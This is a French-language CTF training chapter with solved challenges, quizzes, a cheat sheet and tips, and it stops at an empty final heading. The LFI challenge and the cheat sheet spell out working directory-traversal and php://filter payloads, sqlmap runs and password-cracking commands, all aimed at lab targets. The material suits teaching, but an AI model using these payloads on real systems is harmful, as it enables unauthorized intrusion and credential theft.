### Mini Challenge 1 — « Selfie mystérieux » (Facile)

**Objectif.** Trouver le flag caché dans une image.

**Énoncé.** Un défi Forensics fournit `selfie.png`. L'énoncé : « Le photographe a laissé une note. Elle n'est pas dans l'image elle-même. »

**Indice 1.** Le mot « note » et « pas dans l'image elle-même » pointent vers les **métadonnées** du fichier.

**Indice 2.** L'outil qui lit les métadonnées d'une image est `exiftool`.

**Indice 3.** Le champ commentaire d'une image se lit avec `exiftool -Comment selfie.png`. S'il ne s'affiche pas directement, cherche tous les champs avec `exiftool selfie.png`.

**Correction.**

```bash
file selfie.png
exiftool -Comment selfie.png
```

Résultat attendu (exemple) :

```text
Comment: flag{c4m_3xc3ll3nt3}
```

**Explication.** L'énoncé donnait l'indice « note » et « pas dans l'image » : il fallait sortir du pixel et regarder les données annexes du fichier (EXIF, Exchangeable Image File Format). Le flag n'était pas modifié visuellement — il était dans le champ `Comment`. Réflexe : en Forensics, si `strings` ne donne rien, vérifie `exiftool` avant de passer aux techniques lourdes.

---

### Mini Challenge 2 — « Message en cascade » (Moyen)

**Objectif.** Décoder un message passé par trois encodages successifs.

**Énoncé.** Tu reçois :

```text
NzA2YzZmNzI2NTZlNzA2ZTcxNzI3YTZj
```

Indice dans l'énoncé : « Une rivière qui coule trois fois avant de se jeter dans la mer. »

**Indice 1.** « Une rivière » : le résultat de chaque décodage est le début de l'opération suivante — il faut appliquer trois décodages dans l'ordre.

**Indice 2.** Observe la chaîne : elle contient des lettres « impossibles » en hex (`N`, `z`, `Y`, `Z`, `T`, `E` dépassent `f`). Ce n'est donc pas de l'hex — c'est du **base64**. Décode-la avec `base64 -d`.

**Indice 3.** Le premier résultat est une suite de caractères `0-9a-f` : c'est de l'**hex**, que tu convertis en texte avec `xxd -r -p`. Le résultat est en **ROT13** (lettres décalées) — applique `tr 'A-Za-z' 'N-ZA-Mn-za-m'`.

**Correction.**

```bash
# Étape 1 : base64 → octets bruts
echo "NzA2YzZmNzI2NTZlNzA2ZTcxNzI3YTZj" | base64 -d
# Sortie : 706c6f72656e706e71727a6c  (de l'hex, pas du texte !)
```

**Attention.** Le premier décodage ne donne pas encore du texte : c'est de l'**hex**. Il faut enchaîner : base64 → hex → ROT13.

```bash
# Étape 1 : base64 → octets bruts
echo "NzA2YzZmNzI2NTZlNzA2ZTcxNzI3YTZj" | base64 -d
# Sortie : 706c6f72656e706e71727a6c

# Étape 2 : hex → texte
echo "706c6f72656e706e71727a6c" | xxd -r -p
# Sortie : plorenpnqrzl

# Étape 3 : ROT13 → texte clair
echo "plorenpnqrzl" | tr 'A-Za-z' 'N-ZA-Mn-za-m'
# Sortie : cyberacademy
```

**Explication.** La chaîne s'est révélée être une **cascade** : base64 → hex → ROT13. L'indice « une rivière qui coule trois fois » signalait précisément trois étapes. La première tentative (lire la chaîne comme de l'hex) était un piège classique : la chaîne commence par `N7` (lettres majuscules), or l'hex n'utilise que `0-9a-f`. Le `N` trahissait le base64. Chaque étape produit un format reconnaissable qui indique l'étape suivante. Résultat : `cyberacademy`, qu'on soumet au format attendu (par exemple `CTF{cyberacademy}` si le format le demande).

---

### Mini Challenge 3 — « La porte arrière du portail » (Difficile)

**Objectif.** Exploiter une faille web simple (LFI ou SSTI) pour lire un fichier.

**Énoncé.** Sur la plateforme CTFd de ta formation, un challenge Web fournit une URL : `http://challenge.local/index.php?page=home`. L'énoncé : « Le serveur garde un secret dans /var/www/secret.php. Il n'est pas affiché par la page d'accueil. » Le serveur tourne en PHP.

**Indice 1.** Le paramètre `page` charge des pages par leur nom : `home`, `about`, `contact`. Ce modèle de « chargement de page par fichier » est le terreau classique du **LFI** (Local File Inclusion, inclusion locale de fichier).

**Indice 2.** Teste la traversée de répertoire : `http://challenge.local/index.php?page=../../../../etc/passwd`. Si tu vois le contenu de `/etc/passwd`, le LFI est confirmé.

**Indice 3.** `secret.php` est exécuté (donc invisible en clair). Utilise le wrapper `php://filter` pour lire son code source en base64 : `http://challenge.local/index.php?page=php://filter/convert.base64-encode/resource=secret.php`, puis décode le base64.

**Correction.**

```bash
# 1. Tester la traversée de répertoire
curl -s "http://challenge.local/index.php?page=../../../../etc/passwd"
# Sortie (extrait) : root:x:0:0:root:/root:/bin/bash
# → LFI confirmé

# 2. Lire le code source de secret.php via le wrapper php://filter
curl -s "http://challenge.local/index.php?page=php://filter/convert.base64-encode/resource=secret.php"
# Sortie : PD9waHAgZWNobyAnQ1RGe2wwYzRsX2YxbDNfMW5jbHU1aTBufSc7ID8+  (du base64)

# 3. Décoder le base64
echo "PD9waHAgZWNobyAnQ1RGe2wwYzRsX2YxbDNfMW5jbHU1aTBufSc7ID8+" | base64 -d
# Sortie : <?php echo 'CTF{l0c4l_f1l3_1nclu5i0n}'; ?>
```

**Explication.** Deux techniques ont été combinées :
- La **traversée de répertoire** (`../../../../`) a confirmé que le paramètre `page` lit un fichier du serveur sans validation : c'est une faille LFI. Le flag n'est pas directement lisible car `secret.php` est **exécuté** par le serveur, pas affiché.
- Le **wrapper `php://filter`** contourne ce problème : il demande au serveur d'encoder le fichier en base64 **avant** de l'exécuter. La sortie est du base64 qui, décodé, révèle le code source de `secret.php` — et le flag dedans.

**Erreurs à éviter.** Ne pas confondre LFI (lecture de fichier local) et RFI (Remote File Inclusion, inclusion d'un fichier distant). Ici le fichier est local. Et rappelle-toi : si le contenu PHP est exécuté, cherche toujours le wrapper `php://filter` avant d'abandonner.
## Quiz

> ⚠️ **Légal** — Le quiz est un exercice de compréhension. Toutes les commandes citées s'exercent sur `127.0.0.1` ou sur des fichiers que tu crées.

---

### a) 20 QCM — corrigés et expliqués

1. **Que signifie l'acronyme CTF ?**
   a) Cyber Test Framework  b) Capture The Flag  c) Control Transfer Function  d) Cipher Text Format
   ✅ **b.** Capture The Flag, « capture du drapeau » : trouver des flags pour marquer des points.

2. **Quel est le format typique d'un flag sur la plupart des plateformes ?**
   a) `FLAG-123456`  b) `CTF{contenu}`  c) `flag.12345`  d) `12345CTF`
   ✅ **b.** `CTF{...}` (ou `flag{...}`, `picoCTF{...}`, `HTB{...}`). Le flag se soumet exactement tel quel.

3. **Quel format de CTF présente des défis classés par catégorie et par points dans une grille ?**
   a) Attack-Defense  b) Kill chain  c) Jeopardy  d) Red vs Blue
   ✅ **c.** Le format Jeopardy : une grille de défis, chaque case a une catégorie et des points, on choisit l'ordre.

4. **Quel est le réflexe numéro un avant de lancer des outils lourds sur une page web ?**
   a) Lancer sqlmap  b) Lire le code source et `robots.txt`  c) Bruteforcer le login  d) Scanner tous les ports
   ✅ **b.** La recon basique (source HTML, `robots.txt`, en-têtes) résout une grande partie des défis faciles à coût quasi nul.

5. **Quelle commande révèle la vraie nature d'un fichier ?**
   a) `strings fichier`  b) `file fichier`  c) `xxd fichier`  d) `binwalk fichier`
   ✅ **b.** `file` lit les signatures et annonce le type réel (PNG, ZIP, ELF…). `strings` cherche du texte, `binwalk` cherche des fichiers emboîtés.

6. **`aGVsbG8gd29ybGQ=` est :**
   a) du hex  b) du ROT13  c) du base64  d) du XOR
   ✅ **c.** Le padding final `=` et l'alphabet `A-Za-z0-9+/` trahissent le base64 (ça décode en « hello world »).

7. **ROT13 de la chaîne « FLAG » donne :**
   a) SYNT  b) GYSN  c) FLAG  d) XGBN
   ✅ **a.** Chaque lettre décalée de 13 : F→S, L→Y, A→N, G→T.

8. **Un hash MD5 :**
   a) se déchiffre avec une clé  b) se décode en base64  c) se casse par dictionnaire ou force brute  d) se lit directement
   ✅ **c.** Un hash est une empreinte irréversible : on ne peut pas le « décoder », on teste des candidats et on compare les empreintes.

9. **Quel outil identifie le type d'un hash ?**
   a) `john`  b) `hashid`  c) `hashcat`  d) `tr`
   ✅ **b.** `hashid` analyse le hash et propose les algorithmes possibles (avec `-m` pour le mode Hashcat, `-j` pour le format John).

10. **L'option `-e` de `binwalk` sert à :**
    a) Encrypter le fichier  b) Extraire automatiquement les fichiers emboîtés  c) Afficher les erreurs  d) Énumérer les fichiers
    ✅ **b.** `binwalk -e` (extract) désassemble les fichiers détectés par signatures dans un dossier `_<nom>.extracted`.

11. **Quel outil lit les métadonnées d'une image ?**
    a) `strings`  b) `exiftool`  c) `tcpdump`  d) `gdb`
    ✅ **b.** `exiftool` lit les champs EXIF : Comment, Artist, GPS, etc. Le flag y est souvent caché.

12. **Pour analyser un fichier `capture.pcap`, quel outil est le plus adapté ?**
    a) `gobuster`  b) `tshark`  c) `hydra`  d) `steghide`
    ✅ **b.** `tshark` (version CLI de Wireshark) lit les captures réseau avec des filtres (`-Y`).

13. **La stéganographie LSB modifie :**
    a) les octets de poids fort des pixels  b) le bit de poids faible des octets d'une image  c) la taille du fichier  d) le nom du fichier
    ✅ **b.** LSB = Least Significant Bit : on remplace le dernier bit de chaque octet (modification imperceptible de la couleur) pour y cacher un message.

14. **`steghide extract -sf photo.jpg` permet de :**
    a) voir la photo  b) extraire les données cachées dans la photo  c) compresser la photo  d) lire les métadonnées
    ✅ **b.** `steghide` cache/extraie des données dans des images ou des sons ; `extract -sf` extrait le fichier caché.

15. **La recherche inversée d'images sert à :**
    a) recadrer une image  b) trouver où une image apparaît ailleurs sur le web  c) compresser une image  d) lire les pixels
    ✅ **b.** C'est une technique OSINT : uploader une image et trouver d'autres occurrences (Google Images, TinEye, Yandex).

16. **Dans un crackme, l'instruction `xor $0x55,%eax` suivie d'une comparaison signifie souvent :**
    a) le mot de passe est haché  b) chaque octet du mot de passe est XORé avec 0x55 avant comparaison  c) le programme est chiffré  d) rien d'exploitable
    ✅ **b.** Le XOR est visible dans le code ; le mot de passe se retrouve en appliquant `octet_attendu ^ 0x55`.

17. **Quel outil vérifie les protections d'un binaire (NX, PIE, canary) ?**
    a) `checksec`  b) `hashcat`  c) `ffuf`  d) `zbarimg`
    ✅ **a.** `checksec` (fourni par pwntools) liste ASLR, NX, canary, PIE — il détermine toute la stratégie d'exploitation.

18. **Dans pwntools, `cyclic(100)` sert à :**
    a) chiffrer une chaîne  b) générer un motif pour mesurer l'offset d'un buffer overflow  c) boucler 100 fois  d) générer un mot de passe
    ✅ **b.** Le motif cyclique unique permet, après le crash, de retrouver exactement la taille du tampon avec `cyclic_find()`.

19. **Le wrapper `php://filter/convert.base64-encode/resource=secret.php` permet de :**
    a) exécuter le PHP  b) lire le code source d'un fichier PHP en base64 (contournement LFI)  c) supprimer le fichier  d) chiffrer le fichier
    ✅ **b.** Il demande au serveur d'encoder le fichier en base64 avant de l'exécuter : on lit le code source du fichier PHP.

20. **Un flag trouvé « au mauvais format » doit être :**
    a) modifié au hasard  b) resoumis exactement tel que trouvé, après vérification  c) abandonné  d) chiffré
    ✅ **b.** On vérifie le format attendu par la plateforme et on soumet exactement la chaîne trouvée : pas de « correction » au jugé.

---

### b) 10 Vrai/Faux — corrigés et justifiés

1. **Un CTF est un environnement autorisé où toutes les techniques de test sont légales.**
   ✅ **Vrai** (sur les plateformes prévues pour). Le cadre légal vient de l'autorisation : HackTheBox, TryHackMe, Root-Me, picoCTF sont conçus pour ça. En dehors, une technique identique devient illégale.

2. **base64 et ROT13 sont des chiffrements.**
   ❌ **Faux.** Ce sont des **encodages** : aucune clé secrète, réversibles sans secret. Le chiffrement (RSA, XOR avec clé) utilise une clé.

3. **On peut « déchiffrer » un hash MD5 pour retrouver le mot de passe.**
   ❌ **Faux.** Un hash est une empreinte irréversible. On le « casse » en testant des candidats (dictionnaire, force brute) et en comparant les empreintes.

4. **`strings` affiche uniquement les chaînes de caractères lisibles d'un fichier.**
   ✅ **Vrai.** C'est son rôle : extraire les séquences de caractères imprimables. Les données compressées ou chiffrées n'y apparaissent pas (sauf le texte en clair qu'elles contiennent).

5. **`file` se fie toujours à l'extension du fichier.**
   ❌ **Faux.** `file` lit les **signatures** (octets magiques) du contenu, pas l'extension. Un `.jpg` qui est en réalité un ZIP sera annoncé comme « Zip archive ».

6. **Un flag doit être soumis exactement comme trouvé, casse comprise.**
   ✅ **Vrai.** `CTF{abc}` n'est pas `ctf{ABC}` : la soumission est sensible à la casse et au format.

7. **`gobuster` est un outil de décodage.**
   ❌ **Faux.** `gobuster` est un outil de **reconnaissance** : il énumère les répertoires/fichiers d'un serveur web à partir d'une wordlist. Décoder, c'est le rôle de CyberChef/base64/xxd.

8. **La stéganographie LSB est invisible à l'œil humain.**
   ✅ **Vrai.** Modifier le bit de poids faible ne change la couleur que d'un cran sur 256 : indiscernable, mais lisible par `zsteg` ou un script.

9. **Le format Attack-Defense consiste à défendre ses propres machines tout en attaquant celles de l'équipe adverse.**
   ✅ **Vrai.** Chaque équipe a des services vulnérables à protéger et peut voler des flags sur les services adverses.

10. **pwntools ne sert qu'à l'exploitation de vulnérabilités réseau lointaines.**
    ❌ **Faux.** pwntools est d'abord utilisé sur des **binaires locaux** (`process("./crackme")`) pendant l'entraînement, et sur des services distants (`remote`) en challenge.

---

### c) 10 questions ouvertes — corrigées

1. **Explique en une phrase la différence entre encodage, chiffrement et hachage.**
   ✅ L'encodage transforme une donnée en une autre représentation sans secret (réversible sans clé) ; le chiffrement protège la confidentialité avec une clé ; le hachage produit une empreinte irréversible qui permet de vérifier mais pas de retrouver.

2. **Pourquoi commence-t-on toujours par `file` puis `strings` en Forensics ?**
   ✅ `file` révèle la vraie nature du fichier (ce qu'on regarde), et `strings` affiche le texte lisible à moindre coût. Ces deux étapes évitent de lancer des outils lourds sur un mauvais type de fichier et résolvent déjà une grande partie des défis faciles.

3. **Quelle est la propriété mathématique du XOR qui permet de le « défaire » ?**
   ✅ L'opération XOR est symétrique et involutive : appliquer deux fois la même clé redonne la donnée originale (`(a XOR k) XOR k = a`). Pour décoder, on réapplique la même clé.

4. **Comment reconnaître un hash MD5 au premier coup d'œil ?**
   ✅ 32 caractères hexadécimaux (0-9a-f). Un SHA-1 fait 40 caractères, un SHA-256 en fait 64. On confirme avec `hashid -m -j`.

5. **Que faire si `strings` ne révèle rien mais que la taille du fichier semble anormale ?**
   ✅ Vérifier `tail -c 200 fichier` (données collées à la fin), puis lancer `binwalk`/`binwalk -e` pour détecter et extraire d'éventuels fichiers emboîtés.

6. **Pourquoi le wrapper `php://filter/convert.base64-encode` contourne-t-il l'exécution du PHP ?**
   ✅ Parce qu'il demande au serveur d'encoder le fichier en base64 avant interprétation : le serveur renvoie le contenu encodé au lieu d'exécuter le script. On le décode ensuite avec `base64 -d`.

7. **Quel est l'intérêt de `cyclic()` dans un exercice de buffer overflow ?**
   ✅ Générer un motif non répétitif : quand le programme crashe, l'adresse écrasée correspond à un morceau du motif, et `cyclic_find()` donne l'offset exact du tampon avant l'adresse de retour.

8. **En équipe CTF, pourquoi la règle « un flag soumis est un flag gagné » est-elle primordiale ?**
   ✅ Soumettre immédiatement évite de perdre le travail d'un membre (panne, fatigue, oubli) et sécurise les points. Thésauriser ne sert à rien : le flag ne rapporte rien tant qu'il n'est pas soumis.

9. **Cite deux techniques OSINT pour localiser un lieu à partir d'une photo.**
   ✅ (1) Recherche inversée sur Google Images/TinEye/Yandex pour retrouver d'autres occurrences ; (2) analyse des indices visuels (panneaux, langue, relief, horloges) croisée avec Google Maps/Street View, sans oublier les métadonnées GPS avec `exiftool`.

10. **Pourquoi les challenges Pwn débutants préfèrent-ils le scénario « ret2win » ?**
    ✅ Parce qu'il est pédagogique : la fonction `win()` existe déjà dans le programme, il n'y a pas de shellcode ni d'écriture de code machine, il suffit de rediriger l'exécution vers elle en écrasant la pile — sans aucune destruction, sur un environnement autorisé.

---

### d) 5 exercices pratiques — corrigés

**Exercice 1 — Identifier un encodage.**

La chaîne suivante est un message caché :
```text
U2NpZW5jZSBldCBjeWJlcnNlY3VyaXR5
```
**a)** Identifie l'encodage. **b)** Décode le message.

✅ **a)** Fin en `==` ? Non, mais elle ne contient que des caractères `A-Za-z0-9+/` et sa longueur est un multiple de 4 : c'est du **base64**.
✅ **b)** `echo "U2NpZW5jZSBldCBjeWJlcnNlY3VyaXR5" | base64 -d` → `Science et cybersecurity`.

**Exercice 2 — Choisir le bon outil Forensics.**

On te fournit `mystere.pcap` et l'énoncé : « Le mot de passe a transité en clair. »
**a)** Quel outil utilise-t-on en premier pour la vue d'ensemble ? **b)** Et pour chercher directement les chaînes ?

✅ **a)** `tshark -r mystere.pcap` (puis filtres `-Y "http"` / `-Y "tcp.port == 80"`). **b)** `strings mystere.pcap | grep -i "pass\|flag\|secret"` — le mot de passe en clair y apparaît.

**Exercice 3 — Déchiffrer un XOR simple.**

Tu sais que le message suivant a été XORé octet par octet avec la clé `0x42` :
```text
0a 07 0e 0e 0d
```
Retrouve le message.

✅ `0a^0x42=0x48='H'`, `07^0x42=0x45='E'`, `0e^0x42=0x4c='L'`, `0e^0x42='L'`, `0d^0x42=0x4f='O'` → **HELLO**. En Python : `bytes([b ^ 0x42 for b in bytes.fromhex("0a070e0e0d")])`.

**Exercice 4 — Casser un hash.**

Le fichier `hash.txt` contient `bdae550cf03fede469b879276d9e6679`. Décris les étapes pour retrouver le mot de passe.
✅ 1) `hashid -m -j hash.txt` → MD5, mode 0, format `raw-md5`. 2) `john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`. 3) `john --show --format=raw-md5 hash.txt` → le mot de passe trouvé (ici : `cyberacademy`).

**Exercice 5 — Construire une recette de décodage.**

Tu reçois `RkxBR3tZM1NfQVMzU30=` et l'énoncé : « Un seul encodage. »
✅ C'est du base64 : `echo "RkxBR3tZM1NfQVMzU30=" | base64 -d` → `FLAG{Y3S_AS3S}`. Une seule opération « From Base64 » dans CyberChef suffit (le padding `=` indique la fin).
## Cheat Sheet

> ⚠️ **Légal** — Cette fiche ne doit être utilisée que sur des environnements autorisés (plateformes CTF, ta machine, labs isolés).

### Catégorie → commandes

| Catégorie | Commandes de base |
| --------- | ----------------- |
| Recon | `curl -s URL`, `curl -sI URL`, `curl -s URL/robots.txt`, `gobuster dir -u URL -w /usr/share/wordlists/dirb/common.txt`, `ffuf -u URL/FUZZ -w wordlist.txt`, `subfinder -d domaine`, `dig domaine`, `whois domaine` |
| Web | `curl -s "URL?page=../../../../etc/passwd"`, `curl -s "URL?page=php://filter/convert.base64-encode/resource=flag.php" \| base64 -d`, `sqlmap -u "URL?param=1" --dbs`, `hashcat -m 16500 jwt.txt rockyou.txt`, `echo "cookie" \| base64 -d` |
| Crypto | `echo "chaine" \| base64 -d`, `echo "hex" \| xxd -r -p`, `echo "texte" \| tr 'A-Za-z' 'N-ZA-Mn-za-m'`, `hashid -m -j hash.txt`, `john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`, `openssl rsa -pubin -in pub.pem -text -noout` |
| Forensics | `file fichier`, `strings -n 6 fichier`, `exiftool fichier`, `binwalk fichier`, `binwalk -e fichier`, `tail -c 200 fichier`, `tshark -r cap.pcap`, `tshark -r cap.pcap -Y "http"`, `tcpdump -r cap.pcap -A`, `volatility -f mem.raw imageinfo` |
| Stego | `binwalk -e image.jpg`, `foremost -i image.jpg`, `steghide info image.jpg`, `steghide extract -sf image.jpg`, `zsteg image.png`, `zip2john archive.zip > h.txt && john --wordlist=rockyou.txt h.txt` |
| OSINT | `sherlock pseudo`, `theHarvester -d domaine -b all`, recherche inversée (Google Images/TinEye/Yandex), Wayback Machine |
| RE | `file binaire`, `strings -n 6 binaire`, `nm binaire`, `objdump -d binaire`, `gdb -q ./binaire` |
| Pwn | `checksec binaire`, `nm binaire`, pwntools : `cyclic(200)`, `cyclic_find(...)`, `p64()`, `p32()`, `process()`, `remote()` |

### Outils par catégorie

| Catégorie | Outils |
| --------- | ------ |
| Web | `curl`, `gobuster`, `ffuf`, `sqlmap`, Burp Suite, CyberChef, `hashcat` |
| Crypto | CyberChef, `hashid`, `john`, `hashcat`, `openssl`, `xxd`, `tr`, `base64`, RsaCtfTool |
| Forensics | `file`, `strings`, `exiftool`, `binwalk`, `foremost`, `tcpdump`, `tshark`, Volatility |
| Stego | `binwalk`, `foremost`, `steghide`, `zsteg`, `exiftool`, Audacity, `zip2john` |
| OSINT | Google Images, TinEye, Yandex, `sherlock`, `theHarvester`, Wayback Machine, crt.sh |
| RE | `file`, `strings`, `nm`, `objdump`, `gdb`, Ghidra, radare2, Cutter, dogbolt.org |
| Pwn | `checksec`, `nm`, `gdb`, pwntools |
| Misc | Python, pwntools, CyberChef, `zbarimg`, `file` |

### Encodages fréquents et comment les reconnaître

| Encodage | Indices visuels | Décodage |
| -------- | --------------- | -------- |
| base64 | `A-Za-z0-9+/`, fin par `=` ou `==`, longueur multiple de 4 | `base64 -d` / From Base64 |
| hex | uniquement `0-9a-f`, nombre pair de caractères | `xxd -r -p` / From Hex |
| ROT13 | lettres uniquement, texte « cassé » (S→F, Y→L, N→A, T→G) | `tr 'A-Za-z' 'N-ZA-Mn-za-m'` / ROT13 |
| César | lettres, décalage inconnu | essayer 25 décalages (CyberChef) |
| base64url (JWT) | parties séparées par des points, `-` et `_` au lieu de `+/` | jwt.io / From Base64url |
| ASCII décimal/binaire | suites de nombres `72 101...` ou `01001000...` | CyberChef From Decimal / From Binary |
| URL encoding | `%20`, `%7B`, `%7D` | CyberChef From URL Encoding |

### Mots-clés de flag à chercher

```
CTF{  flag{  picoCTF{  HTB{  FLAG  flag  secret  hidden  root  admin
pass  password  p@ssw0rd  flag.txt  .bak  .backup  robots.txt  .git/
```

Recherche rapide après un outil : `strings fichier | grep -iE "ctf|flag|pico|htb"`.

### Commandes `strings` / `binwalk` / `steghide` / `exiftool` / Volatility — l'essentiel

```bash
# strings
strings fichier                  # toutes les chaînes
strings -n 6 fichier             # ignore les chaînes < 6 caractères
strings -e l fichier             # chaînes UTF-16 (Windows)

# binwalk
binwalk fichier                  # détecte les signatures
binwalk -e fichier               # extrait les fichiers emboîtés
binwalk -B fichier               # scan brut des signatures

# steghide
steghide info photo.jpg          # liste le contenu caché
steghide extract -sf photo.jpg   # extrait (passphrase vide = Entrée)

# exiftool
exiftool photo.jpg               # toutes les métadonnées
exiftool -Comment photo.jpg      # un champ précis
exiftool -Comment="texte" photo.jpg   # écrire un champ

# tcpdump / tshark
tcpdump -r cap.pcap -A           # contenu en ASCII
tshark -r cap.pcap -Y "http"     # filtrer le trafic HTTP
tshark -r cap.pcap -Y "frame contains \"FLAG\""   # chercher une chaîne

# volatility (version 2)
volatility -f mem.raw imageinfo
volatility -f mem.raw --profile=Win7SP1x64 pslist
volatility -f mem.raw --profile=Win7SP1x64 filescan
volatility -f mem.raw --profile=Win7SP1x64 memdump -p <PID> -D ./
```

### Pièges de la cheat sheet

- `xxd -r` sans `-p` exige un hexdump formaté ; l'hex brut nécessite `-p`.
- `john` : toujours forcer `--format=` avec la valeur de `hashid -j`.
- `base64 -d` produit des octets ; si le résultat « ne veut rien dire », c'est peut-être **encore encodé**.
- Les adresses x86 s'écrivent en **petit-boutiste** : utilise `p64()`/`p32()` plutôt que de les taper à la main.
- `steghide` refuse d'extraire si la passphrase est incorrecte ; teste la passphrase vide (Entrée) en premier.

---

## Pièges fréquents

1. **Confondre encodage et chiffrement.** Chercher « la clé » d'un message qui est simplement en base64 fait perdre des heures. Réflexe : tester encodage (base64, hex, ROT13) avant chiffrement. Le padding `=` ou les caractères `0-9a-f` sont des indices.

2. **Chercher trop compliqué.** Le flag est souvent en clair : dans un commentaire HTML, une chaîne `strings`, une fin de fichier (`tail -c 200`). Vérifie les solutions simples avant les attaques complexes. Le défi « Inspect HTML » de picoCTF est exactement cela.

3. **Oublier les métadonnées.** Un flag peut être dans `Comment`, `Artist`, `GPS` d'une image. `exiftool` est une étape obligatoire du Forensics, même quand l'image « a l'air normale ».

4. **Ne pas lire l'énoncé.** Le nom du défi, sa catégorie et son auteur sont des indices. Un défi nommé « Traversal » ne parle probablement pas de crypto. L'énoncé est un contrat : il décrit ce que tu dois trouver et parfois comment.

5. **Bruteforcer quand il faut décoder.** `hydra` ou `john` ne servent à rien sur une chaîne base64 : elle se décode en une seconde. Identifier le type de la donnée (encodage ? hash ? chiffrement ?) détermine l'outil, pas l'inverse.

6. **Soumettre un flag au mauvais format.** Ajouter/retirer `{}`, changer la casse, laisser un espace ou un retour à la ligne : la soumission échoue. Vérifier le format attendu par la plateforme et soumettre exactement la chaîne trouvée.

7. **Se fier à l'extension du fichier.** Un `.jpg` peut être un ZIP, un `.png` un PDF. `file` lit les signatures, pas les extensions. Toujours `file` en premier.

8. **Lancer des outils lourds sans recon.** `sqlmap` ou un bruteforce avant d'avoir lu `robots.txt` et le code source, c'est du temps perdu. La recon résout les défis faciles sans aucun outil d'exploitation.

9. **Ignorer les offsets de binwalk.** La colonne `DECIMAL`/`HEXADECIMAL` te dit où chaque fichier commence. La lire permet de localiser manuellement les données si l'extraction automatique échoue.

10. **S'arrêter au premier décodage.** Un résultat « charabia » est souvent un encodage de plus. La cascade base64→hex→ROT13 est un classique : décoder jusqu'à obtenir quelque chose de lisible.

11. **Lire les octets en désordre sur x86.** Le petit-boutiste inverse les octets dans les mots (`0x12141913` = octets `13 19 14 12`). Pour un crackme, recopier les octets dans l'ordre d'écriture évite les erreurs.

12. **Oublier la passphrase vide de steghide.** `steghide extract` refuse si la passphrase est fausse, mais accepte la passphrase vide (touche Entrée) : c'est le cas le plus fréquent dans les défis faciles.

13. **Négliger le nom des fonctions.** `nm` ou `info functions` révèlent `check_password`, `win`, `flag`, `print_flag` : des cadeaux qui orientent toute l'analyse. Ne jamais passer directement au désassemblage complet.

14. **Penser que le trafic réseau est chiffré.** Un flag dans une réponse HTTP est en clair : `tcpdump -r -A` ou `strings` le montrent directement. Vérifie avant de chercher une attaque.

---

## Conseils professionnels

1. **Construis une méthodologie reproductible.** Le réflexe ordonné (énoncé → recon → identifier → outils → vérifier → soumettre) est ta meilleure arme. Les pros n'improvisent pas : ils suivent une checklist.

2. **Tiens un carnet de notes.** Note chaque challenge résolu, les commandes qui ont marché, les erreurs faites. Un carnet bien tenu transforme chaque défi en brique réutilisable pour les suivants. C'est aussi ton futur portfolio.

3. **Automatise tes gestes répétitifs.** Dès qu'une tâche se répète (lire une question, décoder un format, tester 100 valeurs), écris un script Python. C'est exactement ce que fera un exploit developer ou un SOC analyst.

4. **Regarde les hints officiels et les write-ups.** Les indices de la plateforme sont souvent gratuits et précieux ; les write-ups publiés après la compétition sont des cours gratuits. Lis-les même (surtout) quand tu as réussi : tu y découvres des méthodes plus élégantes.

5. **Travaille en équipe et communique.** En CTF, le « regard neuf » d'un coéquipier débloque des situations figées. Exerce-toi à expliquer clairement un problème : c'est la compétence la plus sous-estimée en cybersécurité.

6. **Entraîne-toi régulièrement, un peu chaque semaine.** 30 minutes par jour valent mieux que 8 heures une fois par mois. La régularité construit les réflexes ; l'intensité ponctuelle construit la frustration.

7. **Pense comme l'organisateur.** Demande-toi : « si j'avais créé ce défi, où aurais-je mis le flag ? » Cette inversion de perspective (aussi appelée « threat modeling », modélisation des menaces) est une compétence professionnelle en soi.

8. **Respecte le cadre légal, toujours.** Les compétences apprises en CTF sont identiques à celles d'un attaquant : seule l'autorisation fait la différence. Un pentester professionnel ne teste que ce qui est dans le scope (périmètre autorisé). Adopte cette discipline dès maintenant.

9. **Documente tes résolutions comme des rapports.** Un write-up clair (contexte, étapes, outils, résultat) ressemble au rapport de pentest que tu devras écrire. Entraîne-toi à cette écriture : elle vaut autant que l'exploitation.

10. **Choisis tes batailles.** Sur un CTF de 48 h, un défi à 50 points restant non résolu vaut moins qu'un défi à 300 points. Les pros gèrent leur énergie comme un budget : priorise par points, pas par ego.

---

## Résumé

Voici la synthèse visuelle de ce cours : pour chaque catégorie, le réflexe à avoir et l'outil à utiliser.

| Catégorie | Réflexe | Outil clé |
| --------- | ------- | --------- |
| **Toutes** | Lire l'énoncé, vérifier le format du flag, documenter | Carnet + plateforme |
| **Recon** | Page, `robots.txt`, répertoires, sous-domaines | `curl`, `gobuster`, `ffuf` |
| **Web** | Source HTML puis inputs, payload la plus simple | `curl`, CyberChef, `sqlmap` |
| **Crypto** | Identifier encodage/chiffrement/hash, décoder en cascade | CyberChef (Magic), `hashid`, `john` |
| **Forensics** | Pyramide : `file` → `strings` → `exiftool` → `binwalk` | `binwalk`, `tshark`, Volatility |
| **Stego** | Chercher le caché : emboîté, LSB, métadonnées, audio | `binwalk -e`, `steghide`, `zsteg` |
| **OSINT** | Énumérer les indices, corréler, vérifier | Recherche inversée, `sherlock` |
| **RE** | `strings` puis fonctions puis désassemblage | `nm`, `objdump`, `gdb` |
| **Pwn** | `checksec` d'abord, offset, payload pwntools | `checksec`, pwntools |
| **Misc** | Lire l'énoncé trois fois, automatiser, décoder | Python, CyberChef, `zbarimg` |

**Le mantra du niveau 7 :** *Identifier avant d'agir, décoder avant de casser, documenter avant d'oublier.* Un flag se trouve en appliquant la bonne méthode à la bonne donnée — pas en essayant tous les outils au hasard.

---

## Progression

### Ce que tu maîtrises maintenant

- **Reconnaissance** : énumération de répertoires (`gobuster`, `ffuf`), Google dorks, sous-domaines, fouille de code source.
- **Web** : tu sais appliquer tes connaissances des niveaux 4-5 (SQLi, XSS, SSTI, LFI, injection de commandes, cookies, JWT) dans un contexte de défi.
- **Crypto** : tu distingues encodage, chiffrement et hachage ; tu décodes, tu identifies les hashes, tu utilises CyberChef, `hashid`, `john`, `hashcat`.
- **Forensics et stéganographie** : la pyramide `file` → `strings` → `exiftool` → `binwalk` est devenue un réflexe ; tu analyses des captures pcap et tu débutes avec Volatility ; tu connais le LSB, `steghide`, `zsteg`.
- **OSINT** : recherche inversée d'images, corrélation d'indices, géolocalisation.
- **Reverse Engineering** : tu lis un désassemblage, tu utilises `gdb`, tu résous un crackme.
- **Pwn** : tu comprends le buffer overflow pédagogique et tu utilises pwntools.
- **Misc** : tu automatises avec Python et tu décodes les formats exotiques.

### Et maintenant ?

